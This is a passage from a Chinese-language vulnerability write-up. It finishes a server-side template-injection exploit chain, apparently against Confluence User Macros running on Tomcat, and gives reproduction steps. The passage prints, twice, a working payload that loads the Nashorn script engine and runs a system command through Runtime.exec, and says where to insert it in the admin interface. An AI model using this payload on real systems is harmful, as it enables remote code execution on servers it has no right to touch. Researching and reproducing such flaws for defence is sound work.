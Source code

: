成功取到 `ScriptEngineManager`。

- [x] 获取 `Nashorn` 脚本引擎并调用其 eval() 方法执行 Java 代码, 完成 Exploit 的最后部分

```text
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('calc')")}
```

![](./img/ca7d9e7be30f4e2fbd268bee21e0b950.png)



---

到这里, 关于这个漏洞的挖掘(分析)过程就结束了, 结果上看还算成功, 但是难免会给人一种"马后炮"的感觉, 所以见仁见智吧！

##### 漏洞复现

登录后台后, 在

- `Manage apps` -> `User Macros` -> `Create a User Macro` -> `Template` -> `Definition of User Macro`
  处插入 payload

```vm
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('calc')")}
```
